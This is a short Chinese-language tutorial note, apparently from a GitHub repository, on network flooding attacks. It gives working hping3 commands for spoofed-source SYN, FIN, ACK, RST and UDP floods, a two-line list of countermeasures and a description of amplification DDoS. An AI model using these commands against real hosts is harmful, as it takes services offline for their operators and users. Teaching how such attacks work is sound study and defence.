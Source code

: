 ### TCP SYN泛洪攻击
&#8195;&#8195;如果攻击者向一个没有建立TCP连接的服务器发送SYN包,服务器需要消耗资源来处理，并返回一个SIN/ACK包。
```
hping3 -S --flood --rand-source -V -p TARGET_PORT TARGET_SITE
```

### TCP FIN泛洪攻击
&#8195;&#8195;如果攻击者向一个没有建立TCP连接的服务器发送FIN包会被丢弃，但是服务器需要消耗资源来处理。
```
hping3 -F --flood --rand-source -V -p TARGET_PORT TARGET_SITE
```

### TCP ACK泛洪攻击
&#8195;&#8195;我们也可以向目标机器发送大量无效的PUSH或者ACK包，来让服务器大量消耗资源，使其无法响应合法的请求：
```
hping3 --flood --rand-source -PA -p TARGET_PORT TARGET_IP
```

### TCP RST攻击
&#8195;&#8195;如果我们捕捉到某个正常用户的源地址，那么我们可以使用伪造的RST包（IP为该用户的IP），来使得这个用户和目标服务器断开TCP链接。
```
hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP
```

### UDP 泛洪攻击
&#8195;&#8195;针对类似于UDP这些无连接的协议，攻击者可以发送大量伪造源ip地址的小UDP包。
```
hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP
```

### TCP SYN/ACK/FIN/RST应对方法
- 在路由器中，当发现过多的SYN、FIN、RST包时，直接丢弃
- 加资源：带宽、cpu等


### DDOS放大型攻击
&#8195;&#8195;攻击者不是直接把通信包发给受害者，发给放大器然后反射个受害者。这种手段利用回复包比请求包大的特点，伪造请求包的源ip地址，将应答包引向被攻击的目标。

<p align="center">
<img src="./source/放大攻击.png"  style="width:300px" alt="放大攻击"/>
</p>
